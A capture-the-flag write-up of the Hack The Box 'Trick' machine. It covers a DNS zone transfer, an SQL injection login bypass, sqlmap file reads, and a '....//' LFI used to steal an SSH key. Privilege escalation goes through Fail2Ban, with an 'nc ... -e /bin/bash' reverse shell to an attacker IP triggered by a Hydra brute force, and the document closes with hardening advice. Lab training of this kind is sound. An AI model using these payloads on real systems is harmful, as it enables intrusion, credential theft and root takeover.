






# Trick — Hack The Box Writeup

| Property       | Value                                                                                                                    |
| -------------- | ------------------------------------------------------------------------------------------------------------------------ |
| **Machine**    | Trick                                                                                                                    |
| **OS**         | Linux (Debian 10 Buster, Kernel 4.19.0-20-amd64)                                                                         |
| **IP**         | 10.129.102.227                                                                                                           |
| **Domain**     | trick.htb                                                                                                                |
| **Difficulty** | Easy                                                                                                                     |
| **Author**     | PeterTheFlower / Pitiliti1                                                                                               |
| **Tags**       | DNS Zone Transfer, AXFR, SQL Injection, Authentication Bypass, VHost Enumeration, LFI, Path Traversal, Fail2Ban LPE, SSH |

---

## Summary

Trick is an Easy-difficulty Linux machine running Debian 10 that exposes SSH, SMTP, DNS, and an Nginx web server hosting multiple PHP virtual hosts. Initial reconnaissance leverages a DNS AXFR zone transfer against the authoritative BIND server to discover the internal virtual host `preprod-payroll.trick.htb`. An SQL injection authentication bypass on the payroll application grants administrative access and enables arbitrary file read via SQLMap, disclosing the Nginx virtual host configuration. This configuration reveals a second virtual host, `preprod-marketing.trick.htb`. The marketing application's `page` parameter is vulnerable to Local File Inclusion with a directory traversal filter bypass (`....//`), allowing extraction of the SSH private key for the local user `michael`.

Post-authentication privilege escalation exploits a misconfigured `sudoers` entry that permits `michael` to restart the Fail2Ban service as root without a password. Because the `security` group — to which `michael` belongs — has write permissions on the Fail2Ban `action.d` directory, the `iptables-multiport.conf` action configuration can be modified to execute an arbitrary reverse shell payload whenever a ban action is triggered. Restarting the service, then deliberately triggering an SSH brute-force ban via Hydra, yields a root-level reverse shell and full system compromise.

---

## 1. Reconnaissance

### 1.1 Port Scan

An initial full TCP port scan was executed using Nmap:

```bash
nmap -sC -sV -p- -T4 -oN nmap.txt 10.129.102.227
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Port    | State | Service | Version / Notes                          |
|:--------|:------|:--------|:-----------------------------------------|
| 22/tcp  | open  | SSH     | OpenSSH 7.9p1 Debian 10+deb10u2         |
| 25/tcp  | open  | SMTP    | Postfix smtpd                            |
| 53/tcp  | open  | DNS     | ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian) |
| 80/tcp  | open  | HTTP    | Nginx 1.14.2                             |

> **Theory — Port Combination Analysis:**  
> This combination of open ports is highly indicative of a multi-service Linux server acting as both a mail relay and an authoritative DNS server for a local domain. The presence of **DNS on TCP/53** (not just UDP) is significant — it signals that the server supports DNS zone transfers (AXFR), which require a TCP connection. Combined with **SMTP/25**, this suggests domain-related enumeration (MX records, zone transfers, user enumeration via VRFY/EXPN) should be a priority. The **HTTP/80** service likely hosts a PHP application given the Debian LEMP stack indicators (Nginx + PHP-FPM).

### 1.2 DNS Enumeration

With an authoritative DNS server exposed, DNS enumeration was performed systematically.

**Reverse DNS Lookup** to identify the hostname (the website itself did not reveal the domain name):

```bash
dig @10.129.102.227 -x 10.129.102.227
```

```
;; ANSWER SECTION:
227.102.129.10.in-addr.arpa. 604800 IN	PTR	trick.htb.

;; AUTHORITY SECTION:
102.129.10.in-addr.arpa. 604800 IN	NS	trick.htb.
```

The domain `trick.htb` was added to `/etc/hosts`.

**ANY Record Query** to gather additional DNS records:

```bash
dig any trick.htb @10.129.102.227
```

```
;; ANSWER SECTION:
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.		604800	IN	NS	trick.htb.
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1
```

The SOA record reveals the responsible party as `root.trick.htb`. This was added to `/etc/hosts` as a potential virtual host.

**AXFR Zone Transfer** — the critical discovery step:

```bash
dig axfr trick.htb @10.129.102.227
```

```
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.		604800	IN	NS	trick.htb.
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1
preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
```

> **Theory — DNS Zone Transfer (AXFR) Exploitation:**  
> An AXFR (Authoritative Zone Transfer) is a DNS protocol mechanism designed for replicating zone data between primary and secondary nameservers. When misconfigured to allow transfers from any source (no IP-based ACL restriction), an attacker can enumerate the entire DNS zone — exposing internal hostnames, subdomains, mail exchangers, and hidden virtual hosts that are not publicly indexed. This is functionally equivalent to obtaining a complete map of the organization's internal DNS namespace.

The zone transfer revealed the hidden virtual host: **`preprod-payroll.trick.htb`**. All discovered hostnames were added to `/etc/hosts`:

```
10.129.102.227 trick.htb root.trick.htb preprod-payroll.trick.htb
```

### 1.3 SMTP Enumeration

SMTP user enumeration was performed using the `VRFY` command to validate local accounts:

```bash
telnet 10.129.102.227 25
```

```
EHLO trick.htb
250-debian.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
VRFY admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table
VRFY root
252 2.0.0 root
```

This confirmed `root` exists as a local mail recipient, while `admin` does not. While SMTP enumeration did not directly contribute to the exploitation chain, it validated the absence of custom application-tier accounts and confirmed that `root` is a valid username — useful context for the SQL injection authentication bypass later.

### 1.4 Web Enumeration

**Default Virtual Host (`trick.htb`):**

HTTP fingerprinting reveals an Nginx 1.14.2 server serving static content:

```bash
curl -I 10.129.102.227
```

```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Content-Type: text/html
Content-Length: 5480
```

Navigating to `http://trick.htb` displays a generic static landing page with an email subscription form for a service "coming soon":


**Dead End — `root.trick.htb`:** Navigating to `http://root.trick.htb` renders the exact same page (identical 5480-byte response). This subdomain from the SOA record was not a separate virtual host — it pointed to the same default Nginx server block.

**Payroll Virtual Host (`preprod-payroll.trick.htb`):**

After adding the hostname to `/etc/hosts`, navigating to `http://preprod-payroll.trick.htb` presents a PHP login form:



Inspecting the page source reveals AJAX-based authentication logic:

```javascript
$('#login-form').submit(function(e){
    e.preventDefault()
    $.ajax({
        url:'ajax.php?action=login',
        method:'POST',
        data:$(this).serialize(),
        success:function(resp){
            if(resp == 1){
                location.href = 'index.php?page=home';
            } else if(resp == 2){
                location.href = 'voting.php';
            } else {
                // "Username or password is incorrect."
            }
        }
    })
})
```

The backend returns `1` for administrative users (redirects to `index.php?page=home`), `2` for non-administrative users (redirects to `voting.php`), and any other value for failed authentication.

**Dead End — Response Manipulation:** Attempting to artificially change the backend's response to `1` in Burp Suite did not grant access, because the server assigns a `PHPSESSID` cookie that tracks the actual authentication state server-side. The redirect alone is insufficient without a valid authenticated session.

---

## 2. Initial Access — SQL Injection, LFI, and SSH Key Extraction

### 2.1 SQL Injection Authentication Bypass

From SMTP enumeration we knew `root` is a valid system user. Testing the login form for SQL injection with a classic boolean-based bypass:

```
username=admin' or '1'='1
password=test
```



> **Theory — SQL Injection Authentication Bypass:**  
> When an application constructs authentication queries by directly concatenating user input (e.g., `SELECT * FROM users WHERE username='$user' AND password='$pass'`), injecting a tautology such as `' OR '1'='1` transforms the WHERE clause into a universally true condition. The database returns the first matching row (typically the administrator account), and the application grants access without valid credentials. This is one of the oldest and most fundamental web exploitation techniques, yet remains surprisingly prevalent in legacy PHP applications.

The injection succeeded, granting administrative access to the **Payroll Management System**:



### 2.2 Application Enumeration & Credential Discovery

Exploring the administrative panel revealed an **Employee Information** section:



The **Users** management panel contained a single user account:



Clicking **Edit** on this user showed an obfuscated password field (dots). However, intercepting the response in Burp Suite revealed the cleartext password in the HTML source:



```html
<input type="text" name="username" id="username" class="form-control" value="Enemigosss" required>
<input type="password" name="password" id="password" class="form-control" value="SuperGucciRainbowCake" required>
```

**Obtained credentials:** `Enemigosss:SuperGucciRainbowCake`

**Dead End — SSH with discovered credentials:** Attempting to SSH as `Enemigosss` with password `SuperGucciRainbowCake` failed. These were application-only credentials stored in the payroll database with no corresponding system account. This is a common trap — credentials found in web applications do not always translate to OS-level access, but must always be tested.

### 2.3 Arbitrary File Read via SQLMap

With a confirmed SQL injection point, SQLMap was used to  arbitrary file read on the filesystem:

```bash
sqlmap -u http://preprod-payroll.trick.htb/ajax.php?action=login \
  --data="username=abc*&password=abc" -p username \
  --batch --file-read=/etc/passwd --privilege --risk 3 --level 5 --technique=BEU
```

**Key users identified from `/etc/passwd`:**
```bash
cat /home/kalipiotr/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd | grep sh
```
```
root:x:0:0:root:/root:/bin/bash
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```

Reading the Nginx virtual host configuration to map the full web infrastructure:

```bash
sqlmap -u http://preprod-payroll.trick.htb/ajax.php?action=login \
  --data="username=abc*&password=abc" -p username \
  --batch --file-read=/etc/nginx/sites-available/default --privilege --risk 3 --level 5 --technique=BEU
```

**Recovered Nginx Configuration (`/etc/nginx/sites-available/default`):**

```nginx
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name trick.htb;
    root /var/www/html;
    index index.html index.htm index.nginx-debian.html;

    location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php7.3-fpm.sock;
    }
}

server {
    listen 80;
    listen [::]:80;
    server_name preprod-marketing.trick.htb;
    root /var/www/market;
    index index.php;

    location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
    }
}

server {
    listen 80;
    listen [::]:80;
    server_name preprod-payroll.trick.htb;
    root /var/www/payroll;
    index index.php;

    location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php7.3-fpm.sock;
    }
}
```

> **Key Observation:** The marketing virtual host uses a dedicated PHP-FPM pool (`php7.3-fpm-michael.sock`), indicating it runs under the context of user `michael`. This is a significant architectural clue — any file inclusion vulnerability on this vhost would read files with `michael`'s filesystem permissions, including SSH keys.

### 2.4 Virtual Host Discovery — Subdomain Fuzzing (another way of discovering the new host)

From payroll vhost we can assume that vhosts naming convention is as follows: `preprod-*.trick.htb`. Fuzzing subdomains in that namong convention:

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt \
  -u http://trick.htb -H 'Host: preprod-FUZZ.trick.htb' -t 20 -ic -fs 5480
```

```
marketing               [Status: 200, Size: 9660, Words: 3007, Lines: 179, Duration: 153ms]
```

**Result:** `preprod-marketing.trick.htb` was discovered (filtering out the default 5480-byte response). Added to `/etc/hosts`.

### 2.5 Local File Inclusion — Path Traversal Filter Bypass

Navigating to `http://preprod-marketing.trick.htb` reveals a marketing site with a `page` parameter used for content inclusion:

```
http://preprod-marketing.trick.htb/index.php?page=about.html
```

Standard directory traversal (`../../../etc/passwd`) is blocked by a server-side filter that strips `../` sequences. By experimenting with different bypass techniques, a **nested traversal payload** was found to defeat the single-pass filter:

```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//etc/passwd
```

> **Theory — Recursive Traversal Bypass (`....//`):**  
> When a web application implements a naive single-pass sanitization that removes `../` from input strings, the payload `....//` is processed as follows: the filter strips the inner `../`, but the remaining characters reassemble into `../`. For example, `....//` → remove `../` → `../`. This classic bypass demonstrates why recursive or loop-based sanitization (or better yet, path canonicalization and allowlist validation) is required for secure file inclusion operations.

The LFI was confirmed by successfully reading `/etc/passwd`. With the knowledge that the marketing vhost runs as `michael` (via `php7.3-fpm-michael.sock`), the SSH private key was targeted:

```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//home/michael/.ssh/id_rsa
```

The full RSA private key was successfully extracted.

### 2.6 SSH Access as Michael

The extracted private key was saved locally and used to authenticate:

```bash
chmod 600 michael_id_rsa
ssh -i michael_id_rsa michael@10.129.102.227
```

```
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64
Last login: Thu Nov 19 18:59:55 2026 from 10.10.15.197
michael@trick:~$ id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)

michael@trick:~$ cat user.txt
72c6160a6fb1fc85dc3d2c5b7e7b9cf8
```

**🚩 User flag obtained: `72c6160a6fb1fc85dc3d2c5b7e7b9cf8`**

---

## 3. Privilege Escalation — Fail2Ban Action Configuration Abuse

### 3.1 Enumeration & Analysis

**Sudo Privileges:**

```bash
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

**Group Memberships and Writable Directories:**

```bash
michael@trick:~$ id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)

michael@trick:~$ find /etc/fail2ban -writable 2>/dev/null
/etc/fail2ban/action.d
```

**Fail2Ban Action Directory Permissions:**

```bash
michael@trick:~$ ls -la /etc/fail2ban/action.d/
drwxrwx--- 2 root security  4096 ... .
drwxr-xr-x 6 root root      4096 ... ..
-rw-r--r-- 1 root root      1420 ... iptables-multiport.conf
...
```

The `action.d` directory is owned by `root:security` with `rwx` permissions for the group — and `michael` is a member of `security`.

> **Theory — Fail2Ban Privilege Escalation via Writable Action Configurations:**  
> Fail2Ban is an intrusion prevention framework that monitors log files for malicious patterns (e.g., repeated SSH login failures) and executes ban actions (typically `iptables` rules) in response. The ban actions are defined in configuration files within `/etc/fail2ban/action.d/`. When these action files are writable by a non-root user, and that user can also restart the Fail2Ban service (which reloads all configurations), it creates a direct privilege escalation vector: the attacker modifies the `actionban` directive to execute arbitrary commands as root when a ban is triggered. Since Fail2Ban runs as root by design (it needs to manipulate firewall rules), any command injected into an action configuration file will execute with root privileges.

**Dead End — `Enemigosss:SuperGucciRainbowCake` for `su`:** The credentials found in the payroll application were also tested for privilege escalation via `su` to root or any other user — they failed. These remained purely application-level credentials with no system-level reuse.

### 3.2 Exploitation — Modifying Fail2Ban Action Configuration

The default SSH jail in Fail2Ban uses the `iptables-multiport` action. The `actionban` command in this configuration is executed as root whenever an IP exceeds the maximum retry threshold.

**Step 1 — Copy the action file, modify it, and replace the original:**

```bash
michael@trick:~$ cp /etc/fail2ban/action.d/iptables-multiport.conf ~
michael@trick:~$ vim ~/iptables-multiport.conf
```

Replace the `actionban` line with a reverse shell payload:

```ini
# Original:
# actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>

# Modified:
actionban = /usr/bin/nc 10.10.15.197 1234 -e /bin/bash
```

Move the modified file back:

```bash
michael@trick:~$ mv ~/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
mv: replace '/etc/fail2ban/action.d/iptables-multiport.conf', overriding mode 0644 (rw-r--r--)? y
```

**Step 2 — Restart Fail2Ban to load the modified configuration:**

```bash
michael@trick:~$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```

**Step 3 — Start a Netcat listener on the attacker machine:**

```bash
nc -lvnp 1234
```

**Step 4 — Trigger a ban by brute-forcing SSH with Hydra:**

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.129.227.180 ssh -t 4
```

After sufficient failed login attempts, Fail2Ban triggers the modified `actionban` command, sending a root reverse shell to the listener:

```bash
nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 10.129.227.180 54292
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
2474d1f4ceb9347bbe671b4dbd20261a
```

**🚩 Root flag obtained: `2474d1f4ceb9347bbe671b4dbd20261a`**

---

## 4. Attack Path Summary

```
         ┌──────────────────────────┐
         │   Nmap Scan              │
         │   Ports: 22,25,53,80    │
         └────────────┬─────────────┘
                      │
         ┌────────────▼─────────────┐
         │   DNS AXFR Zone Transfer │
         │   ► preprod-payroll.     │
         │     trick.htb discovered │
         └────────────┬─────────────┘
                      │
         ┌────────────▼─────────────┐
         │   SQLi Auth Bypass       │
         │   ► Admin access on      │
         │     payroll application  │
         └────────────┬─────────────┘
                      │
         ┌────────────▼─────────────┐
         │   App Enum + SQLMap      │
         │   ► Creds: Enemigosss   │
         │     (dead end for SSH)   │
         │   ► Nginx config leaked  │
         │   ► VHost naming pattern │
         └────────────┬─────────────┘
                      │
         ┌────────────▼─────────────┐
         │   ffuf Subdomain Fuzz    │
         │   ► preprod-marketing.   │
         │     trick.htb discovered │
         └────────────┬─────────────┘
                      │
         ┌────────────▼─────────────┐
         │   LFI (....// bypass)    │
         │   ► michael's SSH key    │
         │     extracted            │
         └────────────┬─────────────┘
                      │
         ┌────────────▼─────────────┐
         │   SSH as michael         │
         │   ► 🚩 user.txt          │
         └────────────┬─────────────┘
                      │
         ┌────────────▼─────────────┐
         │   Fail2Ban action.d      │
         │   writable + sudo restart│
         │   ► Modified actionban   │
         │   ► Triggered ban via    │
         │     Hydra brute-force    │
         └────────────┬─────────────┘
                      │
         ┌────────────▼─────────────┐
         │   Root reverse shell     │
         │   ► 🚩 root.txt          │
         └───────────────────────────┘
```

---

## 5. Findings & Recommendations

### Finding 1 — DNS Zone Transfer Allowed from Any Source (AXFR)

| Attribute       | Detail                                                                                                                                                                             |
| :-------------- | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severity**    | 🔵 Low                                                                                                                                                                             |
| **MITRE**       | T1590.002 — Gather Victim Network Information: DNS                                                                                                                                 |
| **Description** | The authoritative BIND DNS server permits AXFR zone transfers from any IP address, disclosing all DNS records including internal virtual host names (`preprod-payroll.trick.htb`). |

**Recommendations:**
- Restrict zone transfers to authorized secondary nameserver IPs only using `allow-transfer` ACLs in the BIND `named.conf` configuration.
- Implement TSIG (Transaction Signatures) for authenticated zone transfers between primary and secondary DNS servers.
- Monitor DNS query logs for AXFR requests from unauthorized sources and alert on anomalies.
- Consider using DNS Response Rate Limiting (RRL) to mitigate reconnaissance activity.

---

### Finding 2 — SQL Injection Authentication Bypass and Arbitrary File Read

| Attribute       | Detail                                                           |
|:----------------|:-----------------------------------------------------------------|
| **Severity**    | 🔴 Critical                                                     |
| **MITRE**       | T1190 — Exploit Public-Facing Application                        |
| **Description** | The payroll application login form (`ajax.php?action=login`) concatenates unsanitized user input into SQL queries, allowing boolean-based authentication bypass and arbitrary file read via the `FILE` privilege granted to the MySQL application user. |

**Recommendations:**
- Use **Prepared Statements and Parameterized Queries** (PDO or MySQLi) for all database interactions.
- Apply the **Principle of Least Privilege** to the MySQL application user — revoke `FILE`, `SUPER`, and all administrative grants; restrict to `SELECT`, `INSERT`, `UPDATE`, `DELETE` on application-specific tables only.
- Enforce `secure_file_priv = NULL` in `my.cnf` to completely disable `LOAD_FILE()` and `INTO OUTFILE` operations.
- Implement a Web Application Firewall (WAF) with positive security model as a defense-in-depth layer.
- Avoid storing application credentials in plaintext within the database.

---

### Finding 3 — Local File Inclusion with Path Traversal Filter Bypass

| Attribute       | Detail                                                           |
|:----------------|:-----------------------------------------------------------------|
| **Severity**    | 🔴 Critical                                                     |
| **MITRE**       | T1083 — File and Directory Discovery                             |
| **Description** | The marketing application's `page` parameter performs file inclusion based on user-supplied input. A single-pass `../` removal filter is trivially bypassed using `....//` sequences, enabling arbitrary file read with the web application's user privileges (`michael`), including SSH private keys. |

**Recommendations:**
- Implement an **allowlist** of permitted page values rather than relying on blacklist-based path sanitization.
- Use `realpath()` or `basename()` in PHP to canonicalize paths before inclusion and verify they fall within the intended webroot directory.
- Disable `allow_url_include` in `php.ini` and restrict `open_basedir` to the application directory.
